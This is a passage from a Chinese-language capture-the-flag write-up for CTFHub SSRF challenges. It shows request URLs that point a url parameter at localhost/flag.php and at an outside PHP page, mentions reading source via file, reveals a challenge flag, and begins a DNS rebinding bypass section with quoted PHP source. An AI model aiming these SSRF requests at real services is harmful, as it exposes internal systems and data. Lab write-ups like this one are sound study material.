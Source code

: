 ```http://challenge-f16e2f72d68913ad.sandbox.ctfhub.com:10800/?url=catblog.ggff.net/ctf/zd.php```

![image-20250420011447151.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a338bc2761a031423fb7c8a34a3f6011c2?version=1.0&width=2046&height=1536)

### 方法2

file看一下源码

![image-20250420011557649.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3a3057181e9b64627b47cdf0ca37a9ff2?version=1.0&width=2046&height=1536)

![image-20250420011623517.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a328afd20f44ce4d39b3e6167468b7153b?version=1.0&width=2046&height=1536)

发现对localhost并没有过滤

访问```http://challenge-f16e2f72d68913ad.sandbox.ctfhub.com:10800/?url=localhost/flag.php```

![image-20250420011808330.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a30b70e8ab214a46b89c4aca63fcdb59c5?version=1.0&width=2046&height=1536)

**flag:ctfhub{6fccc197195e2c5860463261}**

# SSRF（二）

## DNS重绑定 Bypass

**题目：**

![image-20250426171107605.png](https://previewengine.zohopublic.com.cn/image/WD/8fg6nf2cce9b5a5e74d18ad5f958a13b04a93)

附件：[浅谈DNS重绑定漏洞 - 知乎](https://zhuanlan.zhihu.com/p/89426041)        附件详细介绍了DNS重绑定的漏洞

先看一下flag.php,只能内网访问

![image-20250426172155794.png](https://previewengine.zohopublic.com.cn/image/WD/8fg6nf991ae35a0814f1692a825d8752d9ba9)

file看一下

```php

<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    exit;
}

echo getenv("CTFHUB");

```
